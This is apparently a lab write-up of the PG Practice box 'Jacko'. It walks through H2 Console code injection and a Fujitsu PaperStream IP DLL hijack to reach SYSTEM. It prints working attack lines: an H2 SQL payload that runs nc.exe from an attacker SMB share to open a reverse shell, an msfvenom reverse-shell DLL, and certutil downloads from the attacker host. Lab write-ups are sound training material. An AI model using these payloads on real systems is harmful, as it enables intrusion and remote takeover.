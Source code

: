 ```yaml
---
description: PG Practice Jacko writeup
---
```


# Jacko

## Nmap

```
sudo nmap 192.168.67.66 -p- -sS -sV        

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
7680/tcp open  pando-pub?
8082/tcp open  http          H2 database http console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

On port 8082 we have a login page for H2 Console. Connecting with the default inputted values allows login to the console.

![](<../../../.gitbook/assets/image (820).png>)

Once logged in we can see that we are running on H2 Console version 1.4.199. A search on exploit-db shows that version 1.4.199 is vulnerable to code injection using Java.

{% embed url="https://www.exploit-db.com/exploits/49384" %}

The following snippet is the vulnerable code we need to run on the H2 Console:

![](<../../../.gitbook/assets/image (821).png>)

The section of the code that executed commands on the target machine has been shown below. To achieve code execution I set up a SMB Server on my attacking machine with Impacket's SMBserver.py script and ensured `nc.exe` was in the specified SMB share.

`-- Evaluate script CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval"; CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.49.67/Share/nc.exe -e cmd.exe 192.168.49.67 8082").getInputStream()).useDelimiter("\Z").next()');`

First set up a SMB server:

```
python2 smbserver.py -smb2support Share /home/kali/
```

![](<../../../.gitbook/assets/image (822).png>)

Then paste the code from exploit-db into the SQL statement section of the website and ensure the --evaluate script section has the command for calling `nc.exe` on the attacking machines SMB server.

![](<../../../.gitbook/assets/image (823).png>)

When ready run the SQL statement and we should see authentication on `smbserver.py`

![](<../../../.gitbook/assets/image (824).png>)

And then shortly after catch a reverse shell on our `netcat` listener.

![](<../../../.gitbook/assets/image (825).png>)

First we need to fix PATH on the target machine as shown below:

```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

![](<../../../.gitbook/assets/image (826).png>)

Looking through Program files (x86) we can see a directory called PAPERSTREAM IP. Looking for exploits on exploit-db takes us to the following:

{% embed url="https://www.exploit-db.com/exploits/49382" %}

The description for this exploit is shown below:

```
A DLL hijack vulnerability exists in the FJTWSVIC service running as part of
the Fujitsu PaperStream IP (TWAIN) software package. This exploit searches
for a writable location, copies the specified DLL to that location and then
triggers the DLL load by sending a message to FJTWSVIC over the FjtwMkic_Fjicube_32
named pipe.

# Example payload generated as follows
# msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=eth0 LPORT=4444 
$PayloadFile = "C:\Windows\Temp\UninOldIS.dll"
```

We need to change the DLL name generated by `msfvenom` and the payload location. When I attempted to download exploit to c:\windows\temp my file was deleted instantly. Possibly by AV?

First I generated a `msfvenom` shell to the name of the DLL required which is UninOldIS.dll. `msfvenom -p windows/shell_reverse_tcp -f dll -o UninOldIS.dll LHOST=192.168.49.67 LPORT=8082`

Then changed the payload file variable to the users Desktop.

![](<../../../.gitbook/assets/image (827) (1).png>)

At this point move into the users Desktop then use `certutil` to download the files as when copying by SMB I could get the payload to trigger without issues.

```
certutil -urlcache -split -f http://192.168.49.67/exploit.ps1 exploit.ps1
certutil -urlcache -split -f http://192.168.49.67/UninOldIS.dll UninOldIS.dll
```

Start a `netcat` listener on the attacking machine to listen in on port 8082. Then execute the Powershell exploit.ps1 on the target machine.

`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\users\tony\Desktop\exploit.ps1`

![](<../../../.gitbook/assets/image (828) (1).png>)

A short while later we should receive a shell as SYSTEM.

![](<../../../.gitbook/assets/image (829).png>)

